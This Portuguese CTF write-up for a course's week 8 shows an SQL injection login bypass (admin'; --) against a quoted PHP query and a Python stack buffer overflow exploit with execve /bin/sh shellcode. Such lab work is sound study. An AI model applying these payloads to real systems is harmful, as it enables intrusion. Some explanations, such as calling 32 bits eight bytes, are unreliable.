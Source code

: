 # CTF - WEEK 8[](url)

## Challenge #1

**1.** Ao analisar o ficheiro _index.php_, podémos verificar que este continha uma linha onde é possível ocorrer um vulnerabilidade. 

[Terminal print - index.php file](CTFs/Img/Semana8-Desafio1/1.index_php.png)

- Podemos verificar que podemos inserir, na linha em baixo no campo $username, uma subquery que nos permita fazer login com a conta do administrador.

```php
$username = $_POST['username'];
$password = $_POST['password'];
               
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

**2.** Sendo assim, no campo _username_ no servidor poderemos colocar a seguinte _string_:

```sql
admin'; --
```
[Terminal print - login page](CTFs/Img/Semana8-Desafio1/2.login.png)


**3.** Ao instroduzir a _stirng_ referida em cima, podemos verificar que a query do ficheiro vai ficar:

```sql
SELECT username FROM user WHERE username = 'admin'; -- ".$username."' AND password = '".$password."'";
```

- Assim, conseguimos fazer "login" na conta do administrador e obter a flag.

[Terminal print - flag result](CTFs/Img/Semana8-Desafio1/3.result.png)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que será que se pode fazer?

**1.** Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - execution of program file](CTFs/Img/Semana8-Desafio2/1.execute_program.png)

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/2.gdb_buffer_address.png)

**2.** Ao usar o ficheiro _exploit-example.py_ de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana. <br>Explicação do código (do ficheiro "exploit-example.py"):

**2.1.** Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

```py
txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
```

**2.2.** Transformar o código hexadecimal (corresponde à shell) num array de bytes.

```py
buf = bytearray.fromhex(addr)
buf.reverse()
```

**2.3.** Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

![drawing - stack memory](CTFs/Img/Semana8-Desafio2/4.stack.png)

```py
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)
```

**2.4.** Criar a "string" final que será enviada para o exploit.

```py
finalString = b"a"*77 + fp*2 + buf
```

**2.5.** Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

```py
p.sendline(shellcode + finalString)
```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).
